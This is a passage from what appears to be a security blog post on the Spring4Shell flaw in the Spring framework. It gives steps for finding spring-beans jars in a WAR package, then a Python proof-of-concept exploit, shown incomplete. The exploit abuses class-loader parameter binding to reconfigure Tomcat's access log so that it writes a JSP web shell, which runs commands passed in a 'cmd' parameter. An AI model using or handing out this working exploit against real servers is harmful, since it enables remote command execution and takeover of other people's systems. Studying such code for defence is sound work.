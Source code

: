 - Unzip the war package: 

- Now goto the decompressed Directory and excute the following command to find any file which matches `spring-beans-*.jar` pattern. If the grep returns any results it indicates that the business system is developed using the Spring framework.

![1](/blog/assets/images/15/4.png)



## Proof the Concept:

This exploit code was published by [@esheavyind](https://twitter.com/esheavyind), 

```python3
# Author: @Rezn0k
# Based off the work of p1n93r

import requests
import argparse
from urllib.parse import urlparse
import time

# Set to bypass errors if the target site has SSL issues
requests.packages.urllib3.disable_warnings()

post_headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

get_headers = {
    "prefix": "<%",
    "suffix": "%>//",
    # This may seem strange, but this seems to be needed to bypass some check that looks for "Runtime" in the log_pattern
    "c": "Runtime",
}


def run_exploit(url, directory, filename):
    log_pattern = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20" \
                  f"java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter" \
                  f"(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B" \
                  f"%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di"

    log_file_suffix = "class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp"
    log_file_dir = f"class.module.classLoader.resources.context.parent.pipeline.first.directory={directory}"
    log_file_prefix = f"class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}"
    log_file_date_format = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="

    exp_data = "&".join([log_pattern, log_file_suffix, log_file_dir, log_file_prefix, log_file_date_format])

    # Setting and unsetting the fileDateFormat field allows for executing the exploit multiple times
    # If re-running the exploit, this will create an artifact of {old_file_name}_.jsp
```
